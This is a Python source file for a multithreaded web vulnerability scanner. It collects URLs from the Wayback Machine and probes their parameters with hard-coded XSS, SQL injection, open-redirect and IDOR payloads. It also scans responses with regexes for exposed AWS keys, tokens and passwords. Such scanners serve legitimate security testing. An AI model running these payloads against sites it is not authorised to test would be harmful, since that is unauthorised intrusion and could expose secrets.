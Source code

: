 import requests
import re
import argparse
from urllib.parse import urlparse, urljoin, urlencode, quote
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor, as_completed
from tqdm import tqdm

# Parameters and payloads
XSS_PAYLOADS = [
    "<script>alert(1)</script>",
    "\"'><script>alert(1)</script>",
    "%3Cscript%3Ealert(1)%3C%2Fscript%3E",
    "\u003cscript\u003ealert(1)\u003c/script\u003e"
]

REDIRECT_PARAMS = ["next", "redirect", "url", "return", "dest", "path", "continue"]
REDIRECT_PAYLOADS = [
    "https://google.com",
    "//google.com",
    "\\google.com",
    "/\\google.com",
    "%2f%2fgoogle.com"
]

IDOR_PARAMS = ["id", "user", "uid", "userid", "account", "accountid", "profile"]
IDOR_TEST_VALUES = ["1", "2", "999999999", "abc", "test"]

SQLI_PAYLOADS = [
    "' OR '1'='1",
    "' OR 1=1--",
    "\" OR \"1\"=\"1",
    "admin' --",
    "' UNION SELECT null, version() --",
    "' AND SLEEP(5) --",
    "' OR 1=1#",
    "' OR 1=1/*",
    "' OR 'a'='a",
    "') OR ('1'='1--",
    "admin' #",
    "admin'/*"
]

SENSITIVE_PATTERNS = {
    "JWT": r"eyJ[A-Za-z0-9-_]+\.[A-Za-z0-9-_]+\.[A-Za-z0-9-_]+",
    "AWS Access Key": r"AKIA[0-9A-Z]{16}",
    "AWS Secret Key": r"(?i)aws(.{0,20})?(secret|private)?(.{0,20})?['\"][0-9a-zA-Z\/+]{40}['\"]",
    "Google API Key": r"AIza[0-9A-Za-z-_]{35}",
    "API Key": r"(?i)(api[_-]?key|token|secret|access[_-]?token|auth[_-]?token)[\"'=:\s]+([a-z0-9-_]{16,})",
    "Email": r"[a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+",
    "Password": r"(?i)(password|pwd|pass)[\"'=:\s]+([a-zA-Z0-9@#%$!^&*]{6,})"
}

# Wayback fetcher
def get_wayback_urls(domain):
    urls = set()
    try:
        r = requests.get(
            f"http://web.archive.org/cdx/search/cdx?url={domain}/*&output=json&fl=original&collapse=urlkey",
            timeout=15)
        if r.status_code == 200:
            data = r.json()
            for entry in data[1:]:
                urls.add(entry[0])
    except Exception:
        pass
    return list(urls)

def get_params_from_url(url):
    parsed = urlparse(url)
    q = parsed.query
    params = []
    if q:
        params = [p.split('=')[0] for p in q.split('&') if '=' in p]
    return params

def replace_param_value(url, param, value):
    parsed = urlparse(url)
    base = parsed.scheme + "://" + parsed.netloc + parsed.path
    query = dict([p.split('=', 1) if '=' in p else (p, '') for p in parsed.query.split('&') if p])
    query[param] = value
    return base + "?" + urlencode(query)

def fetch_url(url, method="GET", params=None, data=None, allow_redirects=True, timeout=10):
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) vulnscanner/1.0"}
    try:
        if method.upper() == "POST":
            r = requests.post(url, data=data, headers=headers, timeout=timeout, allow_redirects=allow_redirects)
        else:
            r = requests.get(url, params=params, headers=headers, timeout=timeout, allow_redirects=allow_redirects)
        return r
    except Exception:
        return None

def scan_xss(url):
    results = []
    params = get_params_from_url(url)
    if not params:
        return results
    for param in params:
        for payload in XSS_PAYLOADS:
            test_url = replace_param_value(url, param, payload)
            r = fetch_url(test_url)
            if r and payload in r.text:
                results.append({
                    "url": test_url,
                    "param": param,
                    "payload": payload
                })
                break  # Found on this param, move to next param
    return results

def scan_open_redirect(url):
    results = []
    params = get_params_from_url(url)
    if not params:
        return results
    for param in params:
        if param.lower() not in REDIRECT_PARAMS:
            continue
        for payload in REDIRECT_PAYLOADS:
            test_url = replace_param_value(url, param, payload)
            r = fetch_url(test_url, allow_redirects=False)
            if r and 'Location' in r.headers:
                loc = r.headers['Location'].lower()
                if "google.com" in loc:
                    results.append({
                        "url": test_url,
                        "param": param,
                        "payload": payload,
                        "redirect_location": r.headers['Location']
                    })
                    break
    return results

def scan_idor(url):
    results = []
    params = get_params_from_url(url)
    if not params:
        return results
    for param in params:
        if param.lower() not in IDOR_PARAMS:
            continue
        # Get original response
        orig_r = fetch_url(url)
        if not orig_r:
            continue
        orig_len = len(orig_r.text)
        for test_val in IDOR_TEST_VALUES:
            test_url = replace_param_value(url, param, test_val)
            r = fetch_url(test_url)
            if r:
                # Compare response length heuristic
                diff = abs(len(r.text) - orig_len)
                # If response differs significantly, possible IDOR or parameter sensitive info
                if diff > 50 and r.status_code == 200:
                    results.append({
                        "url": test_url,
                        "param": param,
                        "tested_value": test_val
                    })
                    break
    return results

def scan_sqli(url):
    results = []
    params = get_params_from_url(url)
    if not params:
        return results
    for param in params:
        for payload in SQLI_PAYLOADS:
            test_url = replace_param_value(url, param, payload)
            r = fetch_url(test_url)
            if r:
                content = r.text.lower()
                # Check for common SQL errors or warnings
                if any(x in content for x in ["sql syntax", "mysql", "you have an error", "warning", "unclosed quotation mark", "syntax error", "sqlstate"]):
                    results.append({
                        "url": test_url,
                        "param": param,
                        "payload": payload
                    })
                    break
    return results

def scan_sensitive_info(url):
    results = []
    r = fetch_url(url)
    if not r:
        return results
    for name, pattern in SENSITIVE_PATTERNS.items():
        matches = re.findall(pattern, r.text)
        for match in matches:
            # match can be tuple if regex has groups, so flatten it
            if isinstance(match, tuple):
                match = match[1] if len(match) > 1 else match[0]
            if len(match) > 5:  # avoid short false positives
                results.append({
                    "url": url,
                    "type": name,
                    "value": match
                })
    return results

def scan_url(url):
    result = {
        "url": url,
        "XSS": [],
        "OpenRedirect": [],
        "IDOR": [],
        "SQLi": [],
        "SensitiveInfo": []
    }
    result["XSS"] = scan_xss(url)
    result["OpenRedirect"] = scan_open_redirect(url)
    result["IDOR"] = scan_idor(url)
    result["SQLi"] = scan_sqli(url)
    result["SensitiveInfo"] = scan_sensitive_info(url)
    return result

def print_results(results):
    for res in results:
        url = res["url"]
        print(f"\n==== Scan results for: {url} ====")

        if res["SQLi"]:
            print("\033[91mSQL Injection Found:\033[0m")
            for item in res["SQLi"]:
                print(f"  - {item['url']} (param: {item['param']}, payload: {item['payload']})")

        if res["IDOR"]:
            print("\033[95mIDOR/Parameter Manipulation Found:\033[0m")
            for item in res["IDOR"]:
                print(f"  - {item['url']} (param: {item['param']}, tested_value: {item['tested_value']})")

        if res["OpenRedirect"]:
            print("\033[93mOpen Redirect Found:\033[0m")
            for item in res["OpenRedirect"]:
                print(f"  - {item['url']} (param: {item['param']}, redirect location: {item['redirect_location']})")

        if res["XSS"]:
            print("\033[92mXSS Found:\033[0m")
            for item in res["XSS"]:
                print(f"  - {item['url']} (param: {item['param']}, payload: {item['payload']})")

        if res["SensitiveInfo"]:
            print("\033[96mSensitive Information Found:\033[0m")
            for item in res["SensitiveInfo"]:
                print(f"  - {item['type']}: {item['value']} (on URL: {item['url']})")

        if not (res["SQLi"] or res["IDOR"] or res["OpenRedirect"] or res["XSS"] or res["SensitiveInfo"]):
            print("  No vulnerabilities found.")

def main():
    parser = argparse.ArgumentParser(description="Vulnerability scanner (XSS, Open Redirect, SQLi, IDOR, Sensitive Info).")
    parser.add_argument("--list", required=True, help="File with list of domains or URLs to scan.")
    parser.add_argument("--threads", type=int, default=20, help="Number of concurrent threads (default 20).")
    args = parser.parse_args()

    # Read domains/URLs from list file
    with open(args.list, "r") as f:
        domains = [line.strip() for line in f if line.strip()]

    print(f"[*] Gathering URLs from wayback for {len(domains)} domains...")
    all_urls = set()
    for d in tqdm(domains):
        all_urls.add(d)
        all_urls.update(get_wayback_urls(d))

    print(f"[*] Starting scan on {len(all_urls)} URLs with {args.threads} threads...")
    results = []
    with ThreadPoolExecutor(max_workers=args.threads) as executor:
        futures = {executor.submit(scan_url, url): url for url in all_urls}
        for future in tqdm(as_completed(futures), total=len(futures)):
            res = future.result()
            results.append(res)

    print_results(results)

if __name__ == "__main__":
    main()
